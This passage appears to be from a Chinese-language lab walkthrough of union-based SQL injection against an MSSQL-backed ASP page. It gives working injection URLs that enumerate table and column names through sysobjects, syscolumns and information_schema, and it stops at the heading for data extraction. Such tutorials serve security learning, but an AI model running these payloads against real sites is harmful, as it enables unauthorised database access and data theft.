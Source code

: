 ![](https://p4.ssl.qhimg.com/t0125721234db891a35.png)
查询下一个表名

```php
#使用<>获取下一条数据http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,id,name,null from dbo.sysobjects where xtype='U' and id <> 5575058 -- qwe#使用not in获取下一条数据http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,id,name,null from dbo.sysobjects where xtype='U' and id not in ('5575058') -- qwe
```

![](https://p4.ssl.qhimg.com/t011661598555b1c380.png)

## 5、查询列名

这里有个坑，查询列名的时候因为已经知道了表名的id值，所以where只需要使用id即可，不再需要xtype了。

```php
http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058'-- qwe
```

![](https://p2.ssl.qhimg.com/t01c91e959dfc120a52.png)

```php
http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058' and name not in ('id','username')-- qwe
```

![](https://p0.ssl.qhimg.com/t01a8944599c209006a.png)

## 6、information_schema

值得一提的是，除了借助sysobjects表和syscolumns表获取表名、列名外，mssql数据库中也兼容information_schema，里面存放了数据表表名和字段名，但是查询的数据好像存在一些问题，只查询到了manager表。

```php
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select top 1 table_name from information_schema.tables where table_name <> 'manager'),null -- qwe
```

![](https://p1.ssl.qhimg.com/t0137da5be343f70f2e.png)

```php
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select top 1 column_name from information_schema.columns where table_name = 'manage' ),null -- qwehttp://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select top 1 column_name from information_schema.columns where table_name = 'manage' and column_name not in ('id','username')),null -- qwe
```

![](https://p3.ssl.qhimg.com/t01498aaac4f709b4ec.png)
![](https://p4.ssl.qhimg.com/t011d74ab2d9658c021.png)


## 7、获取数据
